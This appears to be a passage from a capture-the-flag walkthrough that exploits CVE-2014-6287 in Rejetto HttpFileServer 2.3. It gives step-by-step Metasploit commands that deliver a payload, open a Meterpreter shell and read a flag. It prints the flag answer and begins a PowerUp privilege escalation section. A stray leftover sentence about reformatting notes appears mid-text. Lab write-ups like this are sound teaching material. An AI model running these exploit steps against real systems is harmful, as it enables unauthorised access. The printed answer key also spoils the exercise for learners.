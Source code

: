 Search for vulnerabilities related to Rejetto HttpFileServer version 2.3 using a database like Exploit-DB. The relevant CVE for this version is:

**Ans:** CVE-2014-6287

**Explanation:**  
CVE-2014-6287 is a known vulnerability in Rejetto HttpFileServer version 2.3, which can be exploited to gain unauthorized access.

### Q4. Use Metasploit to get an initial shell. What is the user flag?

#### Action

Start Metasploit and use the exploit for CVE-2014-6287:

```bash
msfconsole -q
msf5 > search cve-2014-6287
msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.131.197
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST [Your IP]
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 5555
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit
```

Once the exploit is successful, you should gain a Meterpreter session. Navigate to the user’s desktop to retrieve the flag:

```bash
meterpreter > cd c:/users/bill/desktop
meterpreter > cat user.txt
```

**Ans:** b04763b6fcf51fcd7c13abc7db4fd365

**Explanation:**  
Using Metasploit to exploit the vulnerability gives you a Meterpreter session, allowing you to navigate the file system and retrieve the user flag from the desktop.

Here is the text reformatted to match the style and template of the first notes:

## Privilege Escalation

To enumerate this machine, we will use a PowerShell script called PowerUp. PowerUp's purpose is to evaluate a Windows machine and determine any abnormalities. According to the developers, "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

### Downloading PowerUp

You can download the script from GitHub. Ensure you download the raw script rather than the GitHub page to avoid issues. Once downloaded, you can use the upload command in Metasploit to transfer the script to the target machine.
